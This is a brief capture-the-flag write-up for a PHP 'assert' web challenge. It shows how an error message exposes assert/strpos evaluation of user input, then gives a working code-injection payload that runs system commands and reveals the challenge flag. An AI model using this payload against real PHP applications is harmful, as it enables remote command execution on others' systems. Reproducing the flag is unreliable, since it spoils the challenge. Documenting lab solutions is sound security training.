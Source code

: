 ```yaml
---
layout: default
title: PHP-assert
---
```


We try to give `'` as paylaod, and get this message:
```
Parse error: syntax error, unexpected T_CONSTANT_ENCAPSED_STRING in /challenge/web-serveur/ch47/index.php(8) : assert code on line 1

Catchable fatal error: assert(): Failure evaluating code: 
strpos('includes/'.php', '..') === false in /challenge/web-serveur/ch47/index.php on line 8
```

So, it means we use `assert` and also `strpos`, the php code is looks like:
```php
assert(strpos('$input', '..') === false)
```
Based on this [how assertions can get you hacked](https://infosecwriteups.com/how-assertions-can-get-you-hacked-da22c84fb8f6), I'm giving this payload `' and die(system(ls)) or '`

We should get: 
```php
assert(strpos('' and die(system(ls)) or '', '..') === false)
```
When it'll reach `die(system(ls))`, it'll simply execute this function and print the output.

![ls -la](./images/PHP-assert_ls.png)

And now, cat the password.
![FLAG](./images/PHP-assert_FINAL.png)

**Flag:** ***`x4Ss3rT1nglSn0ts4f3A7A1Lx`***
